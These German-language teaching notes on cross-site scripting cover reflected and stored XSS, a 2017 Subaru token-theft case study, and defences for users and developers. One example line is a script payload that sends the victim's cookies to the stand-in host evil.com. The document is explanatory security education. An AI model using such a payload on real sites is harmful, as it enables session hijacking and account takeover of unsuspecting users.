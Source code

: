 # Cross-Site Scripting (XSS)

## 1. Einleitung und Definition

**Cross-Site Scripting (XSS)** ist eine der am häufigsten auftretenden Schwachstellen in Webanwendungen.  
Der Begriff stammt ursprünglich aus einem Kontext, in dem Schwachstellen im Browser es ermöglichten, Inhalte zwischen verschiedenen Websites zu manipulieren.

XSS-Angriffe nutzen das Vertrauen eines Webbrowsers gegenüber einer bestimmten Website aus, um **bösartigen JavaScript-Code** auszuführen.

> XSS ≠ CSS (Cascading Style Sheets) – obwohl die Abkürzung ähnlich klingt.

### Warum JavaScript?

Die Mehrheit aller XSS-Angriffe nutzt JavaScript, da es in den meisten Browsern aktiviert ist und weitreichende Möglichkeiten zur Interaktion mit Webseiten bietet.

---

## 2. Funktionsweise eines XSS-Angriffs (Überblick)

Ein typischer XSS-Angriff involviert drei Beteiligte:

- **Angreifer**
- **Opfer (z. B. Endnutzer)**
- **Vertrauenswürdige Zielseite**

### Ablauf:

1. **Der Angreifer sendet einen bösartigen Link**  
   (z. B. per E-Mail, SMS, Kommentar oder Chat).

2. **Das Opfer klickt auf den Link**, der zu einer legitimen Website führt, jedoch einen eingebetteten, unsichtbaren Skriptanteil enthält.

3. **Das Skript wird im Browser des Opfers ausgeführt** und sendet z. B. Cookies, Session-Tokens oder andere sensible Informationen an den Angreifer.

---

## 3. Arten von XSS-Angriffen

### 3.1 Nicht-persistentes (Reflektiertes) XSS

**Beschreibung:**  
Das bösartige Skript ist nicht dauerhaft gespeichert, sondern wird über die URL oder Formularfelder an die Website übergeben und **sofort reflektiert**.

**Ablauf:**

- Angreifer entdeckt eine Schwachstelle (z. B. im Suchfeld)
- Er erstellt eine URL mit schädlichem Skript
- Opfer klickt auf den Link
- Die Antwortseite enthält das Skript, das direkt im Browser des Opfers ausgeführt wird

**Beispiel:**  
Ein Suchformular auf einer Website akzeptiert Eingaben ohne Prüfung.  
Der Angreifer sendet:  
```html
<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

---

### 3.2 Persistentes (Gespeichertes) XSS

**Beschreibung:**  
Hier wird der bösartige Code **dauerhaft auf dem Server gespeichert**, z. B. in einem Forum, Kommentarbereich oder Nutzerprofil.

**Ablauf:**

- Angreifer postet JavaScript-Code auf der Website
- Jeder Besucher der Seite lädt und führt diesen Code automatisch aus
- Es erfolgt keine Interaktion mehr durch das Opfer – die Ausführung ist passiv

**Gefahr:**  
Ein einziger Angriff kann viele Benutzer gleichzeitig betreffen („Wurm-artige Verbreitung“).

> „All viewers of that information will have that JavaScript run inside their local browser.“

---

## 4. Fallstudie: XSS-Schwachstelle auf der Subaru-Website (Juni 2017)

**Entdeckung:**  
Sicherheitsforscher *Aaron Guzman* identifizierte eine kritische Schwachstelle auf der Subaru-Fahrzeugverwaltungsplattform.

### Schwachstellen im Detail:

- **Nicht ablaufendes Token:**  
  Nach Login wurde ein Authentifizierungstoken generiert, das **niemals ablief** – was gegen Sicherheitsstandards verstößt.

- **Vollzugriff mit Token:**  
  Das Token ermöglichte vollständigen Zugriff auf Fahrzeugfunktionen (z. B. Service-Anfragen, Fahrzeugdaten).

- **E-Mail-Manipulation:**  
  Der Angreifer konnte seine E-Mail zu fremden Accounts hinzufügen und so **dauerhaften Zugriff** erlangen.

- **Verknüpfung mit XSS:**  
  Über eine XSS-Schwachstelle konnte ein Angreifer einem Opfer einen manipulierten Link zusenden.  
  Klickte das Opfer darauf, konnte der Angreifer das gültige Token abfangen und missbrauchen.

> „This is effectively a single token that allows an attacker full access to anyone's vehicle that may be registered on the Subaru website.“

**Ergebnis:**  
Der Angreifer konnte das Fahrzeug eines beliebigen Subaru-Nutzers kontrollieren.

**Lösung:**  
Die Schwachstelle wurde gemeldet und durch Subaru behoben.

---

## 5. Schutzmaßnahmen gegen XSS-Angriffe

### 5.1 Für Anwender

- **Misstrauen bei Links:**  
  Keine Links anklicken, denen man nicht ausdrücklich vertraut.

- **Direkte Navigation:**  
  Webseiten direkt im Browser öffnen – nicht über Links aus E-Mails oder Nachrichten.

- **JavaScript einschränken:**  
  Verwendung von Add-ons (z. B. NoScript). Achtung: Dies kann Funktionalität beeinträchtigen.

- **Software aktuell halten:**  
  Browser und Anwendungen regelmäßig updaten – Hersteller beheben bekannte XSS-Lücken über Patches.

---

### 5.2 Für Entwickler

- **Input-Validierung:**  
  Alle Benutzereingaben **gründlich prüfen und filtern** – insbesondere in Formularen, URLs, Query-Parametern und HTTP-Headern.

> „You need to make sure that all of the inputs to your application are checked to make sure that a user can't add their own script to any of these input fields.“

- **Output-Encoding:**  
  Dynamisch ausgegebene Inhalte sollten sicher „escaped“ werden, bevor sie im Browser angezeigt werden.

- **Content Security Policy (CSP):**  
  Reduziert die Auswirkungen erfolgreicher Angriffe durch Einschränkung, welche Skripte ausgeführt werden dürfen.

- **Prepared Statements / Templates verwenden:**  
  Kein dynamisches Einfügen von HTML oder JavaScript aus Benutzereingaben.

---

## Fazit

Cross-Site Scripting ist eine **ernstzunehmende Sicherheitsbedrohung**, die weit verbreitet und schwer zu erkennen ist.  
Ein sorgfältiger Umgang mit Benutzereingaben sowie aktuelle Schutzmechanismen im Browser und im Backend-Code sind essenziell.

**XSS steht regelmäßig auf Platz 1–3 der OWASP Top 10 Webanwendungsschwachstellen.**

Ein fundiertes Verständnis dieser Angriffsform ist für Entwickler und IT-Sicherheitsverantwortliche unverzichtbar.
